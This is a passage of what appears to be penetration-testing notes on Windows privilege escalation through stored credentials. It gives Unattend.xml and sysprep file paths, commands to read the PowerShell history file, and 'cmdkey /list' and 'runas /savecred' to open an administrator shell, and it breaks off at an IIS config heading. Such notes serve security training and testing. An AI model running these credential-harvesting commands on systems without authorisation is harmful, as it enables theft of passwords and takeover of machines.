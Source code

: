 - Automated Windows setups may store admin credentials in config files.
- Location:
    
    ```
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
    ```
    
- **Look for**
    
    ```xml
    <Credentials><Username>Administrator</Username><Password>MyPassword123</Password></Credentials>
    ```
    

### **2. PowerShell Command History**

- PowerShell saves previously executed commands, including passwords.
- Location:

```powershell
# From cmd.exe:
type "%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"

# From PowerShell:
cat "$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```

<img width="1513" height="581" alt="Screenshot 2025-08-13 140105" src="https://github.com/user-attachments/assets/f7b9b2ea-9468-4308-b66b-29f8099c1be3" />

### **3. Saved Windows Credentials (cmdkey & runas)**

- Windows may store credentials for reuse.
- **Check saved creds:**
    
    ```powershell
    cmdkey /list
    ```
    
- **Use them to escalate:**
    
    ```powershell
    runas /savecred /user:admin cmd.exe  # Opens cmd as admin if creds are stored
    ```
    <img width="1585" height="504" alt="Screenshot 2025-08-13 140816" src="https://github.com/user-attachments/assets/ed6a693d-4bc6-4501-a304-9ebf8bfcf2cd" />


### **4. IIS Web Server Config (web.config)**

- IIS websites may store database passwords.
- Location:
    
